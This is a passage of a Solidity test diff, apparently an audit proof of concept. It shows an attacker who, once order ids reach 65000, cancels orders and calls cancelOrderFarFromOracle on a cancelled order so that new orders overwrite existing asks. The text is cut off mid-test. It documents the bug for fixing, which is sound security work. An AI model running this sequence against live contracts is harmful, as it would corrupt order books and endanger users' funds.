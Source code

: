 ```diff
     using U256 for uint256;
@@ -317,6 +317,92 @@ contract CancelOrderTest is OBFixture {
         });
     }
 
+    function test_OnceReached65000NewOrdersCanOverwriteExistingOrders() public {
+        address attacker = address(78);
+        vm.label(attacker, "attacker");
+
+        uint80 price1 = 1 ether;
+        uint80 price2 = 2 ether;
+        uint80 price3 = 3 ether;
+        uint80 price4 = 4 ether;
+        uint80 price5 = 5 ether;
+        uint80 price6 = 6 ether;
+        uint80 price7 = 7 ether;
+        uint80 price8 = 8 ether;
+
+        uint88 askAmount = 1 ether;
+
+        fundLimitAskOpt(price1, askAmount, receiver);
+        fundLimitAskOpt(price2, askAmount, receiver);
+        fundLimitAskOpt(price3, askAmount, receiver);
+        fundLimitAskOpt(price4, askAmount, receiver);
+        fundLimitAskOpt(price5, askAmount, receiver);
+        fundLimitAskOpt(price6, askAmount, receiver);
+        fundLimitAskOpt(price8, askAmount, receiver);
+
+        assertEq(getAsks().length, 7);
+
+        //setting order id to 65000 and cancelling 2 orders so as to call cancelOrderFarFromOracle() on a cancelled order which has another previous order
+        vm.prank(owner);
+        testFacet.setOrderIdT(asset, 65000);
+        {
+            uint80 price100 = 100 ether;
+
+            fundLimitAskOpt(price100, askAmount, attacker);
+            fundLimitAskOpt(price100, askAmount, attacker);
+
+            vm.startPrank(attacker);
+            diamond.cancelAsk(asset, 65001);
+            diamond.cancelAsk(asset, 65000);
+        }
+
+        //since checking for last order by .next == Constatns.TAIL, most recently cancelled order also satisfies this
+        //this will make the order point to itself as previous
+        diamond.cancelOrderFarFromOracle({
+            asset: asset,
+            orderType: O.LimitAsk,
+            lastOrderId: 65000,
+            numOrdersToCancel: 1
+        });
+        vm.stopPrank();
+
+        //a new order created now will use this order but the head will still be pointing to this order as the previous order / start of cancel order chain
+        //hence all upcoming orders will replace the orders backwards starting from price7, id=65000
+        assertEq(getAsks().length, 7);
+        fundLimitAskOpt(price7, askAmount, receiver);
+        assertEq(getAsks().length, 8);
```